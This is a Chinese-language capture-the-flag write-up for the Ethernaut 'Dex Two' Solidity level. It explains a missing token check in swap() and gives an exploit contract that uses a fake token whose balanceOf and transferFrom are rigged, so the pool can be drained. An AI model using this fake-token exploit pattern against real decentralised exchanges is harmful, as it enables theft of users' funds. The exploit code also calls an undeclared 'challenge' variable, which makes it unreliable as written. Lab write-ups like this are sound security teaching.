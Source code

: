 ```js
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public returns(bool){
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

由于`swap()`缺少了指定token的判断条件，可以自己构造一个新的 IERC20 的 token 参与进来

大量铸币approve后随便换就行，可以参考[Ethernaut Hacks Level 23: Dex Two - DEV Community](https://dev.to/nvn/ethernaut-hacks-level-23-dex-two-4424)

然而有一个更骚的，override `transferFrom()` 直接返回true，相当于白嫖不用付出代币，也不用approve

override  `balanceOf()` 使其始终返回 1，这样调用 `swap(new_token, to_token, 1)`时，`getSwapAmount()`的分母就为1，就能转出所有to代币，同时也能通过require

```js
pragma solidity ^0.6.0;

contract DexTwo {
  function swap(address from, address to, uint amount) public {}
}

contract EvilToken {
    function balanceOf(address account) public view returns (uint256) {
        return 1;
    }
    function transferFrom(address, address, uint256) public returns (bool) {
        return true;
    }
}

contract Exploit {
    address eviltoken;
    DexTwo instance;
    constructor(address _instance, address _eviltoken) public {
        instance = DexTwo(_instance);
        eviltoken = _eviltoken;
    }
    function exp(address token) public {
        challenge.swap(eviltoken, token, 1);
    }
}
```
